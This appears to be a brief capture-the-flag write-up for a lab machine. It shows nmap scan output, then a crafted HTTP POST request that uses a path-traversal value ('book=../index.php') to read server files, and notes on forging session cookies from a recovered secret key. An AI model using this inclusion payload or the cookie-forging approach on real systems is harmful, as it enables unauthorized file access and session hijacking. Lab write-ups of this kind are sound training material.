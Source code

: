 ```sh
SF:\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(Ter
SF:minalServerCookie,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.156'\x20is
SF:\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server"
SF:)%r(TLSSessionReq,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.156'\x20is
SF:\x20not\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server"
SF:)%r(Kerberos,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.156'\x20is\x20n
SF:ot\x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(S
SF:MBProgNeg,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.156'\x20is\x20not\
SF:x20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(X11P
SF:robe,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.156'\x20is\x20not\x20al
SF:lowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(FourOhFou
SF:rRequest,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.156'\x20is\x20not\x
SF:20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(LDAPS
SF:earchReq,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.156'\x20is\x20not\x
SF:20allowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(SIPOp
SF:tions,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.156'\x20is\x20not\x20a
SF:llowed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(WMSReque
SF:st,4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.156'\x20is\x20not\x20allo
SF:wed\x20to\x20connect\x20to\x20this\x20MariaDB\x20server")%r(oracle-tns,
SF:4B,"G\0\0\x01\xffj\x04Host\x20'10\.10\.14\.156'\x20is\x20not\x20allowed
SF:\x20to\x20connect\x20to\x20this\x20MariaDB\x20server");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
Host script results:
|_clock-skew: 3m11s
| smb2-security-mode:
| 2.02:
|_ Message signing enabled but not required
| smb2-time:
| date: 2021-03-19T19:50:01
|_ start_date: N/A
Service detection performed. Please report any incorrect results
```

## Description

There is a flaw, LFI ?Local File Intrusion) on the books page (/php/book.php) and make a post request to search for a
book, change the request and change the method variable to 1 and delete title and author and replace with a book.

Like this :
```sh
POST /includes/bookController.php HTTP/1.1
Host: 10.10.10.228
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
Accept-Language: zh-CN,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=sj7ktf2u4g6a18doo77vvkl929
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 26
book=../index.php&method=1
```
Find secret key for tokens and php for how cookie are made by looking at files for the portal sign. Read code for cookie.
The phpsessid is created by md5 hashing string that has a random letter from the users name.
